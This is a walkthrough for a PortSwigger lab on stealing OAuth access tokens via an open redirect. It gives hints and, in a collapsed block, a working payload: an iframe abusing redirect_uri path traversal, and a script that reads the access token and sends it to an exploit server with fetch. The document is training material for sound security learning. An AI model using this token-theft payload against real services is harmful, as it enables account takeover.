

# Lab: Stealing OAuth access tokens via an open redirect

- [Link](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## Tips

This is a lab that will require you to explore a little bit. So, open up your Burp or Zap and explore what you can do to manipulate the requests that are made your target server.

As this is an OAuth vulnerability, you'll need to try to find how you can manipulate the `redirect_uri`. What you can do so that you can get the OAuth server to send a request to your exploit server?

<details>
<summary>Click to expand!</summary>

It's not as straightforward as others OAuth labs, but you can try some directory traversal to get past the host validation that the OAuth server do on `redirect_uri`. Of course, this is not sufficient. You'll need to try to find if there's any other place in the blog so that you can made a redirect.

:shushing_face: Don't tell anyone but, maybe the blog posts are a good page to explore :shushing_face:
  
</details>

Okay, you found a way to get the OAuth server to call your exploit server, but this is not all! Now you need to craft a good way to get the `admin` API key. Obviously, it won't be directly. First you'll need to get an access token! Try to see the responses from the actual server, what is expected when you call `/oauth-callback`? What are the expected flow? How one usually use an access token? The answers for those questions can get you in the right direction!

<details>
<summary>Click to expand!</summary>

It might not be the best way to do that, but I used the following body:

```js
// The iframe to trigger the OAuth request
<iframe src=https://oauth-acb31f371fb205cec0132eca025e0051.web-security-academy.net/auth?client_id=h12z1586qp8bbcern17ff&redirect_uri=https://ac611f8f1fcd0583c0ef2e8300c20056.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-acec1f331fbd0574c02d2e5101dc00a8.web-security-academy.net/exploit&response_type=token&nonce=1796294516&scope=openid%20profile%20email></iframe>

// And an script to get the access token when the OAuth server redirect to your exploit server
<script>
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');
fetch('https://exploit-acec1f331fbd0574c02d2e5101dc00a8.web-security-academy.net/?' + token, {
    method: 'GET',
    headers: {
        'Authorization': 'Bearer ' + token,
        'Content-Type': 'application/json'
    }
})
</script>
```

</details>

Now that you have an `admin` access token, how you can get the API key? It is not shown in any page, but it must be somewhere, right? Look at the interactions with the actual server and OAuth server and see if there's any response that gives an `apikey`!

<details>
<summary>Click to expand!</summary>

This is the easiest part in this lab, but if you're really in trouble, the hint is `/me`.

</details>

Grab the `admin` API key, submit and see the victory!

:tada: :tada: :tada: :tada: :tada:

